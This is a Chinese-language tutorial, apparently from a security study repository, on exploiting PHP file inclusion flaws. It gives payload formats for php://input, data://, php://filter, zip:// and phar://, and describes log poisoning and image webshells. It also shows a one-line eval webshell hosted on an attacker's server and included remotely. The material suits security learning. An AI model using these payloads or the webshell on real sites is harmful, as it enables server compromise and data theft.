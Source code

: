 ### 文件包含漏洞

> 只存在于 `php` 中 

---

#### 1、类型

##### (1）本地文件包含

包含存放在目标服务器本地的文件。

##### (2）远程文件包含

包含存放在攻击者服务器的文件。

#### 2、漏洞利用

##### (1）包含本地文件

###### a 包含系统系统敏感文件

###### b 包含图片马

###### c 包含日志文件

- 利用抓包工具提交一句话木马到日志文件
- 包含日志文件
- 利用蚁剑等工具添加好 `Cookie` 然后连接

###### d 利用 `php` 伪协议进行攻击

- `php://input` 

  > 前提条件：`php.ini` 文件中的 `allow_url_include` 设置为 `on` 

  格式：

  ```
  php://input
  post:php代码
  ```

- `data://` 

  > 前提条件：`php.ini` 文件中的 `allow_url_include` 设置为 `on` 

  格式：

  ```
  data://text/plain,[php代码]
  data://text/plain;base64,base64编码的php代码
  ```

- `php://filter` 

  过滤器  用来读取目标的源代码

  格式：

  ```
  php://filter/read=convert.base64-encode/resource=index.php
  ```

- `zip://` 

  `zip://` 、`bzip2://` 、`zlib://` 协议，都属于压缩流，可以访问压缩文件中 的子文件

  格式：

  ```
  zip://绝对（相对）路径/xx.zip%23被压缩的文件
  ```

  1、首先将一个 `PHP` 文件添加到 `zip` 压缩文件

  2、将 `zip` 压缩文件上传（如果是白名单检测可以将 `.zip` 后缀修改为合法的后缀）

  3、利用 `zip://` 协议包含该文件

- `phar://` 

  > 适用范围：`php` > 5.3.0。可以绕过网站固定包含文件名后缀的限制

  格式：

  ```
  phar://相对路径/xx.zip/被压缩文件
  ```

###### e 包含上传文件

如果目标服务器存在文件包含漏洞的同时又有文件上传的功能，此时可以进行组合利用。

- 首先上传图片马
- 包含图片马

##### (2）远程文件包含

> 前提：`php,ini` 的 `allow_url_fopen` 的值为 `On` （默认开启），并且 `allow_url_include` 的值 
>
> 也为 `On` （默认关闭）。

- 攻击者在自己服务器上新建一个文件，内容为：`<?php eval($_POST['a']);?>` 该文件需要能被 

  服务器访问到，这里使用 `python3` 启动一个 `http` 服务：

  ```
  python3 -m http.server --bind 0.0.0.0 1234
  ```

- 在目标网站提交：`?xx=http://ip地址:端口号/文件` 以包含文件
